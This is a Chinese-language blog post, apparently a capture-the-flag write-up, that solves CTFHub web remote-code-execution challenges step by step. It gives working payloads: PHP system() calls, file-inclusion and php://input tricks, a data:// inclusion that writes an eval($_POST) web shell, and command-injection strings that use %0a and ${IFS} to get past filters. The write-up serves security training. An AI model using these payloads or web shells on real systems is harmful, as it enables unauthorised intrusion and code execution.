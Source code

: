 ```yaml
---
layout: post
title: CTFHub Web RCE
subtitle: CTFHub Web RCE
date: 2025-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
---
```

## 1. RCE

### 1.1. eval 执行

![image](https://img.ghostliner.top/HxrYS3.png)

传入 cmd 参数

```php
system("ls -lR / | grep flag");
```

![image](https://img.ghostliner.top/qNEyyj.png)

```php
system("find / -name flag_14104");
```

![image](https://img.ghostliner.top/9C8iWe.png)

```php
system("cat /flag_14104");
```

`ctfhub{d3eaaa2187eddb495ba02f6e}`

### 1.2. 文件包含

![image](https://img.ghostliner.top/jmFpp4.png)

分析代码，GET 传 file 参数不能有“flag”字符，自带 shell.txt 文件

```uri
http://challenge-78e9fffaec2d5817.sandbox.ctfhub.com:10800/?file=shell.txt
```

蚁剑连接

![image](https://img.ghostliner.top/xZi4Lq.png)

### 1.3. php://input

![image](https://img.ghostliner.top/VxOlc8.png)

![image](https://img.ghostliner.top/AuRO1e.png)

成功

```php
a=<?php system("ls /");?>
a=<?php system("cat /flag_21991");?>
```

![image](https://img.ghostliner.top/21aV0j.png)

### 1.4. 远程包含

![image](https://img.ghostliner.top/ry5rgQ.png)

```url
http://challenge-057c54b0b096a464.sandbox.ctfhub.com:10800/?file=data://,<?php fputs(fopen('shell.php','w'),'123<?php eval($_POST["code"]);?>');
```

成功

![image](https://img.ghostliner.top/EOIWV4.png)

### 1.5. 读取源代码

![image](https://img.ghostliner.top/XEYP2h.png)

分析：file 参数以 `php://` 开头，存在 `/flag` 文件

```url
http://challenge-a8afd380d641eed1.sandbox.ctfhub.com:10800/?file=php://filter/resource=/flag
```

![image](https://img.ghostliner.top/AjZYM4.png)

### 1.6. 命令注入

```shell
127.0.0.1|ls
```

![image](https://img.ghostliner.top/cKK2E9.png)

```shell
127.0.0.1|cat 262363244510708.php
```

![image](https://img.ghostliner.top/P6tAJ6.png)

### 1.7. 过滤 cat

`127.0.0.1|ls`

![image](https://img.ghostliner.top/T8tX0v.png)

`127.0.0.1|head flag_42519488108.php`

![image](https://img.ghostliner.top/uMbovh.png)

### 1.8. 过滤空格

`127.0.0.1|ls`

![image](https://img.ghostliner.top/rp3hlM.png)

```url
http://challenge-66d5d23f43cc02ba.sandbox.ctfhub.com:10800/?ip=127.0.0.1;cat<flag_35921562431926.php
```

![image](https://img.ghostliner.top/P1aFEZ.png)

### 1.9. 过滤目录分隔符

![image](https://img.ghostliner.top/VT5WHH.png)

`127.0.0.1|cat flag_is_here` 无内容，`ls -l` 分析是目录

![image](https://img.ghostliner.top/Yic2Pf.png)

查看目录

![image](https://img.ghostliner.top/t1lY7K.png)

```url
http://challenge-ccfac5e714299f03.sandbox.ctfhub.com:10800/?ip=127.0.0.1;cd flag_is_here;cat flag_27471845213010.php
```

![image](https://img.ghostliner.top/17za4S.png)

### 1.10. 过滤运算符

![image](https://img.ghostliner.top/FXaBnm.png)

只过滤了 `|`、`&` 未过滤 `;`

`127.0.0.1|ls`

![image](https://img.ghostliner.top/Jb0m05.png)

`127.0.0.1;cat flag_69852691721920.php`

![image](https://img.ghostliner.top/6ygJ0I.png)

### 1.11. 综合过滤练习

![image](https://img.ghostliner.top/sDdCQa.png)

过滤了 `|`、`&`、`;`、` `、`/`、`cat`、`flag`、`ctfhub`

```php
127.0.0.1%0als
```

![image](https://img.ghostliner.top/stGyCh.png)

```php
127.0.0.1%0als${IFS}-R #${IFS}代替空格ls -R
```

![image](https://img.ghostliner.top/uUGqij.png)

```php
127.0.0.1%0amv${IFS}fla*${IFS}fff%0als${IFS}-R #将文件夹flag改名为fff
```

![image](https://img.ghostliner.top/ORtTf5.png)

![image](https://img.ghostliner.top/OtLqGW.png)

flag 文件无权限改名

```php
127.0.0.1%0acd${IFS}fff%0agrep${IFS}"ctf"${IFS}*.php #使用grep搜索*.php文件避开关键字
```

![image](https://img.ghostliner.top/QyhraO.png)
